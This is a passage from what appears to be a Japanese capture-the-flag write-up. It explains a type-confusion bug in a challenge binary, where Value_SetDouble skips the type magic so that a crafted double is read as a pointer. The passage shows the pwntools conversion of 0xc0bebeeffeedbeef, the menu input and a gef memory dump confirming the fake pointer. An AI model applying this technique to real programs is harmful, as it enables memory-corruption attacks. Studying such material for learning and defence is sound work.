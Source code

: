上記で、`list[0]`(@0x6020a0)がundefined、`list[1]`(@0x6020a8)がStringでヒープアドレス、`list[2]`(@0x6020b0)がDoubleで`list[3]`(@0x6020b8)がIntegerですね。Stringのmagicである`0000`と、Integerのmagicである`ffff`が確認できます。

先のtype.hのコードの説明に戻ります。

`Value_IsInteger`でも同様にmagic`ffff`を確認して、これがあれば整数としています。

最後に`Value_IsDouble`ですが、undefined(`\x0a`)でなく、上記のどれでもなかった場合というのが条件になっています。明らかにルーズですね。
もしmagicの領域を自由に操作できると、Doubleはどのタイプにでもなれそうです。Setシリーズはどうなっているでしょうか。

```c
void Value_SetString(Value *v, char *p) {
  v->String = p;
}
void Value_SetDouble(Value *v, double d) {
  v->Double = d;
}
void Value_SetInteger(Value *v, int i) {
  v->Integer = i;
  v->data.magic = MAGIC_INTEGER;
}
```

SetString → ポインタを置くだけです。MAGICは入力せずとも達成できそうです。良いでしょう。
SetInteger → 整数を入れますがポインタと思われては困るため、MAGICを入れています。`FFFF`がmagicの2バイトに入ります。これも良いでしょう。

だがSetDouble、てめえはだめだ。この人はMAGICの入力をサボるだけでなく、そのままDoubleの値を入れてしまいます。つまり、ポインタと思われてしまうようなDoubleの値を入れても、それを防ぐことができません。これを利用することで、実際にはmallocで取っていないアドレスのフリをすることができます。試してみましょう。

```
$ python
>>> from pwn import *
>>> import struct
>>> struct.unpack('d', p64(0xc0bebeeffeedbeef))[0]
-7870.937483653178
>>> 
```

これを入力すると、以下のように任意の値を入れられることがわかります。  

```
1. Set value
2. Show list
3. Delete value
> 1
index: 1
type (1=String / 2=Double / 3=Integer): 2
data: -7870.937483653178
[+] Successfully set value
1. Set value
2. Show list
3. Delete value
> ^C

(snip)

gef➤  x/20gx 0x6020a0
0x6020a0 <list>:	0x000000000000000a	0xc0bebeeffeedbeef
0x6020b0 <list+16>:	0x000000000000000a	0x000000000000000a
0x6020c0 <list+32>:	0x000000000000000a	0x000000000000000a
0x6020d0 <list+48>:	0x000000000000000a	0x000000000000000a
0x6020e0 <list+64>:	0x000000000000000a	0x000000000000000a
0x6020f0:	0x0000000000000000	0x0000000000000000
0x602100:	0x0000000000000000	0x0000000000000000
0x602110:	0x0000000000000000	0x0000000000000000
0x602120:	0x0000000000000000	0x0000000000000000
0x602130:	0x0000000000000000	0x0000000000000000
gef➤  
```